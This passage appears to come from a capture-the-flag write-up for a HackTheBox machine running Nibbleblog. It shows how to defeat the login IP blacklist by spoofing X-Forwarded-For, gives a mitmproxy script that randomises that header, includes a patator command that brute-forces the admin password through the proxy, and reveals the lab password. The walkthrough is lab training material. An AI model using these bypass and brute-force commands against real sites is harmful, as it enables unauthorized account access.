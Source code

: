 #### 2.1. Login restriction bypass

Note: real IP address gets blacklisted
URL: `http://10.10.10.75/nibbleblog/content/private/users.xml`
```
<blacklist type="string" ip="10.10.15.10">
<date type="integer">1522615320</date>
<fail_count type="integer">4</fail_count>
</blacklist>
```

Using `X-Forwarded-For` in the request header will set a fake IP address to be blacklisted:
```
# http -f POST http://10.10.10.75/nibbleblog/admin.php username=admin password=admin X-Forwarded-For:1.2.3.4 >/dev/null
```

Content of `users.xml`:
```
<blacklist type="string" ip="1.2.3.4">
<date type="integer">1522616016</date>
<fail_count type="integer">5</fail_count>
</blacklist>
```

#### 2.2. Mitmproxy set random `X-Forwarded-For` value:
```
# docker run --rm -it -p 8080:8080 mitmproxy/mitmproxy sh
/tmp # cat << EOF > s.py
import random
def request(flow):
    flow.request.headers["X-Forwarded-For"] = ".".join(str(random.randint(0, 255)) for _ in range(4))
EOF
/tmp # mitmdump -s s.py -q
/tmp # http -f POST http://10.10.10.75/nibbleblog/admin.php username=admin \
password=admin --proxy 'http:http://127.0.0.1:8080' >/dev/null
```


#### 2.3. Bruteforce via patator
```
# url='http://10.10.10.75/nibbleblog/admin.php'
# f='/home/userx/rockyou-40.txt'
# ignore='Incorrect username or password.'
# docker run --rm -i -v $f:/tmp/f.txt patator http_fuzz \
url=$url method=POST body='username=admin&password=FILE0' \
0=/tmp/f.txt -x ignore:fgrep="$ignore" \
proxy='172.16.201.160:8080' proxy_type='http' --threads=2 --rate-limit=3
```

Note:
- `172.16.201.160:8080` - Docker host IP where `mitmproxy` is listening
- `10.10.10.75` - target IP

This method works, but it takes forever. The admin password is actually `nibbles` (face-palm).
